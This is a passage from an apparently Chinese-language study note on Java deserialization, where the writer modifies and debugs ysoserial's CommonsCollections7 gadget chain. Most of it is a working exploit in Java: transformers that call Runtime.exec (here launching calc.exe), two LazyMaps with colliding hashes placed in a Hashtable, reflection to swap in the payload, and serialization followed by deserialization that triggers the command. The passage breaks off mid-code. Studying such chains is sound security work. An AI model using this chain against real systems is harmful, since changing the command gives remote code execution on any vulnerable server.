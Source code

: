 yso给出的居然完全没提到中间那两个map，难道是之前理解错了？下断点调试一下。

略作修改：

```java
import org.apache.commons.collections.Transformer;
import org.apache.commons.collections.functors.ChainedTransformer;
import org.apache.commons.collections.functors.ConstantTransformer;
import org.apache.commons.collections.functors.InvokerTransformer;
import org.apache.commons.collections.map.AbstractMapDecorator;
import org.apache.commons.collections.map.LazyMap;

import java.io.ByteArrayInputStream;
import java.io.ByteArrayOutputStream;
import java.io.ObjectInputStream;
import java.io.ObjectOutputStream;
import java.lang.reflect.Field;
import java.util.AbstractMap;
import java.util.HashMap;
import java.util.Hashtable;
import java.util.Map;

public class CC7_8u65 {
    public static void main(String[] args) throws Exception{
        Transformer fakeTransformers = new ChainedTransformer (new Transformer[]{});
        Transformer[] transformers = new Transformer[] {
                new ConstantTransformer(Runtime.class),
                new InvokerTransformer("getMethod", new Class[] {String.class, Class[].class }, new Object[] { "getRuntime", new Class[0] }),
                new InvokerTransformer("invoke", new Class[] {Object.class, Object[].class }, new Object[] { null, new Object[0] }),
                new InvokerTransformer("exec", new Class[] { String.class}, new String[] { "calc.exe" }),
        };

        Map innerMap1 = new HashMap();
        Map innerMap2 = new HashMap();
        // Creating two LazyMaps with colliding hashes, in order to force element comparison during readObject
        Map lazyMap1 = LazyMap.decorate(innerMap1, fakeTransformers);
        lazyMap1.put("yy", 1);

        Map lazyMap2 = LazyMap.decorate(innerMap2, fakeTransformers);
        lazyMap2.put("zZ", 1);
        // Use the colliding Maps as keys in Hashtable
        Hashtable hashtable = new Hashtable();
        hashtable.put(lazyMap1, 1);
        hashtable.put(lazyMap2, 2);

        Field f = ChainedTransformer.class.getDeclaredField("iTransformers");
        f.setAccessible(true);
        f.set(fakeTransformers,transformers);

        // Needed to ensure hash collision after previous manipulations
        lazyMap2.remove("yy");

        ByteArrayOutputStream barr = new ByteArrayOutputStream();
        ObjectOutputStream oos = new ObjectOutputStream(barr);
        oos.writeObject(hashtable);
        oos.close();

        System.out.println(barr);
        ObjectInputStream ois = new ObjectInputStream(new ByteArrayInputStream(barr.toByteArray()));
        Object o = (Object)ois.readObject();
```